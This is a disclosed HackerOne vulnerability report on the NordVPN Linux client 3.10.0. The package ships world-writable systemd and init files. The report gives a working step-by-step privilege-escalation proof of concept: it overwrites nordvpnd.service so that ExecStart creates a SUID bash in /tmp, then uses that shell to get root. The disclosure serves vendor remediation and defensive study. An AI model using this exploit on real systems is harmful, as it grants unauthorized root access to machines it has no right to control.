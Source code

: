 # NordVPN Linux Client - Unsafe service file permissions leads to Local Privilege Escalation

## Report Details
- **Report ID**: 1218523
- **URL**: https://hackerone.com/reports/1218523
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-06T12:21:46.151Z
- **Disclosed**: 2022-08-24T18:48:18.091Z

## Reporter
- **Username**: bashketchum
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
The Linux package available in NordVPN's repository is affected by a permission issue in init script and systemd unit files that allows any user on the system to execute arbitrary command as root.

## Tested Version

Tested version is the latest available on the repository, which is `3.10.0` and is available at:

https://repo.nordvpn.com/deb/nordvpn/debian/pool/main/nordvpn_3.10.0-1_amd64.deb

```
root@debian:/var/cache/apt/archives# sha256sum nordvpn_3.10.0-1_amd64.deb 
04d0089e326542c629c5f50a235de82bf3fa9fa829065be0490a0902e6770b63  nordvpn_3.10.0-1_amd64.deb
```

Test system is debian 10.

Previous versions are also affected.

## Technical Details

The Linux package in the official NordVPN repository ships with the following files:

```
root@debian:~# dpkg -c /var/cache/apt/archives/nordvpn_3.10.0-1_amd64.deb 
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./var/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./var/lib/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./var/lib/nordvpn/
-rw-rw-rw- 0/0            4973 2021-04-07 10:15 ./var/lib/nordvpn/icon.svg
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./etc/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./etc/init.d/
-rwxrwxrwx 0/0            2442 2021-04-07 10:15 ./etc/init.d/nordvpn
-rwxr-xr-x 0/0         3135944 2021-05-31 11:44 ./var/lib/nordvpn/openvpn
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/lib/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/lib/systemd/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/lib/systemd/system/
-rw-rw-rw- 0/0             368 2021-04-07 10:15 ./usr/lib/systemd/system/nordvpnd.service
-rw-rw-rw- 0/0             229 2021-04-07 10:15 ./usr/lib/systemd/system/nordvpnd.socket
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/lib/tmpfiles.d/
-rw-rw-rw- 0/0              32 2021-04-07 10:15 ./usr/lib/tmpfiles.d/nordvpn.conf
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/bin/
-rwxr-xr-x 0/0        12274928 2021-05-31 11:45 ./usr/bin/nordvpn
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/sbin/
-rwxr-xr-x 0/0        25503576 2021-05-31 11:45 ./usr/sbin/nordvpnd
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./var/lib/nordvpn/data/
-rw------- 0/0              67 2021-05-31 11:43 ./var/lib/nordvpn/data/cybersec.dat
-rw------- 0/0             137 2021-05-31 11:43 ./var/lib/nordvpn/data/insights.dat
-rw------- 0/0            3465 2021-05-31 11:43 ./var/lib/nordvpn/data/ovpn_template.xslt
-rw------- 0/0            4109 2021-05-31 11:43 ./var/lib/nordvpn/data/ovpn_xor_template.xslt
-rw------- 0/0             800 2021-05-31 11:43 ./var/lib/nordvpn/data/rsa-key-1.pub
-rw------- 0/0         2924507 2021-05-31 11:43 ./var/lib/nordvpn/data/servers.dat
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/man/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/man/man1/
-rw-r--r-- 0/0            1813 2021-05-31 11:43 ./usr/share/man/man1/nordvpn.1.gz
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/bash-completion/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/bash-completion/completions/
-r--r--r-- 0/0             572 2021-05-31 11:44 ./usr/share/bash-completion/completions/nordvpn
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/zsh/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/zsh/functions/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/zsh/functions/Completion/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/zsh/functions/Completion/Unix/
-r--r--r-- 0/0             488 2021-05-31 11:44 ./usr/share/zsh/functions/Completion/Unix/_nordvpn_auto_complete
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/doc/
drwxr-xr-x 0/0               0 2021-05-31 11:45 ./usr/share/doc/nordvpn/
-rw-r--r-- 0/0            5504 2021-05-31 11:45 ./usr/share/doc/nordvpn/changelog.gz
```

Some of these files are created with unsafe permissions, this allow any user on the system to overwrite them:

```
-rwxrwxrwx 0/0            2442 2021-04-07 10:15 ./etc/init.d/nordvpn
-rw-rw-rw- 0/0             368 2021-04-07 10:15 ./usr/lib/systemd/system/nordvpnd.service
-rw-rw-rw- 0/0             229 2021-04-07 10:15 ./usr/lib/systemd/system/nordvpnd.socket
```

By overwriting these files, an unprivileged user can trigger the init system to execute arbitrary code as UID 0.

## PoC

The original service unit shipped with the package is this:

```
[Unit]
Description=NordVPN Daemon
Requires=nordvpnd.socket
After=network-online.target
Wants=network-online.target

[Service]
ExecStart=/usr/sbin/nordvpnd
NonBlocking=true
KillMode=process
Restart=on-failure
RestartSec=5
# centos7 RuntimeDirectory ignored
RuntimeDirectory=nordvpn
RuntimeDirectoryMode=0770
# User=root
Group=nordvpn

[Install]
WantedBy=default.target
```

An attacker could override the `ExecStart` entry to execute arbitrary code. For example, this line creates a `SUID` bash binary in `/tmp`:

```
ExecStart=/usr/bin/bash -c "cp /usr/bin/bash /tmp/evilbash; chmod u+s /tmp/evilbash;"
```


### Step by step exploitation

Commands beginning with `#` need a privileged account, while commands beginning with `$` are executed in the context of the unprivileged attacker.

1. Add NordVPN repo as a privileged user

```
# wget https://repo.nordvpn.com/deb/nordvpn/debian/pool/main/nordvpn-release_1.0.0_all.deb
# dpkg -i nordvpn-release_1.0.0_all.deb
```

2. Install NordVPN client as a privileged user

```
# apt-get update
# apt-get install nordvpn
```

3. Proof there's no suid bash in /tmp

```
$ ls -la /tmp
```

4. Edit systemd service file as an unprivileged user

```
$ cat << EOF > /usr/lib/systemd/system/nordvpnd.service
[Unit]
Description=NordVPN Daemon
Requires=nordvpnd.socket
After=network-online.target
Wants=network-online.target

[Service]
ExecStart=/usr/bin/bash -c "cp /usr/bin/bash /tmp/evilbash; chmod u+s /tmp/evilbash;"
NonBlocking=true
KillMode=process
Restart=on-failure
RestartSec=5
# centos7 RuntimeDirectory ignored
RuntimeDirectory=nordvpn
RuntimeDirectoryMode=0770
# User=root
Group=nordvpn

[Install]
WantedBy=default.target
EOF
```

5. Reboot the system to reload and restart the new service (privileged user may not be required if the attacker has physical access to the system)
```
# reboot
```

6. Execute the SUID bash to get root

```
$ ls -l /tmp
$ /tmp/evilbash -p
evilbash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user),998(nordvpn)
```

## Impact

The attacker can execute arbitrary command as the root user on the system.

## Attachments
- nordvpn-pe.ogv
